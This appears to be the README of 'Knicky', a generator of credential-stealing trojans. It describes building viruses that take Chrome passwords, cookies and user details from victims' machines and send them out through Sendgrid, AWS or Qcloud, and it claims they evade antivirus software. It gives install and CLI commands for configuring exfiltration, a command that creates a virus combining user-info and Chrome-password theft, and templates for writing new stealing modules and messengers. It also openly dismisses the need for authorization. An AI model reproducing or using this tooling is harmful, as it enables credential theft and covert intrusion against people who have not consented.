 # Knicky

Yet another module-based static virus generator 


## Little FAQ
**WTF is static virus?**  
Static virus is the virus/trojan that has already had all its functions been defined and would not be controlled by server side. Instead, it would only send critical information (Chrome password, etc.) slowly and predictedly to server side using legitimate third-party services (Sendgrid, AWS, Qcloud, etc.).  
 ![How it works](pics/howitworks.png)

**Why use it?**  
Because the virus generated could always bypass the anti-virus softwares. If not, then make some modification on the modules you are using. And you can also use it in DMZ!  

**Am I authorized to hack others' computer?**  
No, but why not.


## Definition
You should know these conventions to understand following content
* Module - components that are used to return critical information
* Messenger - components that are used to communicate with you and the hacked machine
* Project - each specific virus created

## Installation
```bash
$ git clone https://github.com/shouc/knicky.git && cd knicky
$ python -m pip install -r requirements/main.txt --user
```
## Small Examples

#### 1. Initialize the Module

##### Using Sendgrid
Note: *See the help information about such module*
```bash
$ python cli.py sgUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information*
```
$ python -m pip install -r requirements/sendgrid.txt --user
$ python cli.py sgUpdate\
    --user <receiving email address>\
    --password <receiving email password>\
    --server <receiving email pop3 server>\
    --apiKey <sendgrid api key>\
    -b True
```

##### Using Qcloud COS (腾讯云储存)
Note: *See the help information about such module*
```bash
$ python cli.py qcloudUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information after creating a COS bucket in the panel*
```
$ python -m pip install -r requirements/qcloud.txt --user
$ python cli.py qcloudUpdate\
    --secretID <SecretID>\
    --secretKey <SecretKey>\
    --region <BucketRegion>\
    --bucket <BucketName>\
    -b True
```

#### 2. Have an Overview on Components
See all information about Messenger (components that are used to communicate with you and the hacked machine)
```
$  python cli.py getSendInfo
```
See all information about Module (components that are used to return critical information)
```
$  python cli.py getModuleInfo
```
#### 3. Create a Virus
Note: *By doing so, you created a virus that could send the information of user (userInfo) and Chrome password (chromePassword) of the machine that executed the generated code to you by Qcloud(qcloud)*
```
$ python cli.py createProj userInfo+chromePassword qcloud
```
#### 4. Receive Information
Note: *The information sent to you is encrypted by base64 and you could use following command to decrypt*
```
$ python cli.py listProj
$ python cli.py receiveInfo <project name from foregoing command>
```


## Develop Module

Modules are located at `/module` folder and ends with `.py`.

A module's code should include two functions and several constant:

```python
__sys__ = ["Windows"] # Specify the platform supported
__name__ = "chromeCookies" # Specify the name of messenger
__desc__ = "Retrieve all Cookies of Google Chrome" # Specify the description of messenger


def send():
    """
    Generate the information that is sent to attacker's computer
    This is executed on client side
    :return: plain content need to send to attacker's computer
    """
    pass

```


## Develop Messenger

Messengers are located at `/messenger` folder and ends with `.uninit`.

A messenger's code should include two functions and several constant:

```python
__sys__ = ["Windows", "Darwin", "Linux"] # Specify the platform supported
__name__ = "AWS" # Specify the name of messenger
__desc__ = "Use AWS" # Specify the description of messenger


def send(_content, _module, _projName):
    """
    How the information is sent to attacker's computer (e.g. sending email)
    This is executed on client side
    _content: the content need to send
    _module: the module that created this content
    _projName: the name of this project
    """
    pass

def receive(_range, _projName):
    """
    How the information is received by attacker's computer (e.g. receiving email)
    This is executed on attacker side
    _range: the amount of record attacker needs
    _projName: the name of this project
    :return: [{'_content': the content received
              '_projName': the name of this project
              '_byModule': the module created this content
              '_from': [Optional] the user identifier of this content (e.g. username of computer)
              '_id': [Optional] the identifier of this content
              '_date': the time},]
    """
    pass
```

As different user has different credential for messenger (e.g. different API key for sendgrid), you can specify a configuration in `/config.py` and use `"!@knicky.xxxx@!"` to replace the original credential so that update function could understand.

For example,

```python
# config.py
class xxxUpdate(updateBase):
    def __init__(self, xxAPIKey="xxx", yyAPIKey="yyy", bypass=False):
        updateBase.__init__(self)
        updateBase.stop(self)
        self.bypass = bypass
        self.fileName = "messenger/xxx.uninit"
        self.updateList = [
            {"xxAPIKey": "secretID", "after": xxAPIKey, "desc": ""},
            {"yyAPIKey": "secretID", "after": yyAPIKey, "desc": ""},
        ]
```

Then, all `"!@knicky.xxAPIKey@!"` and `"!@knicky.yyAPIKey@!"` are replaced to what user specified in CLI.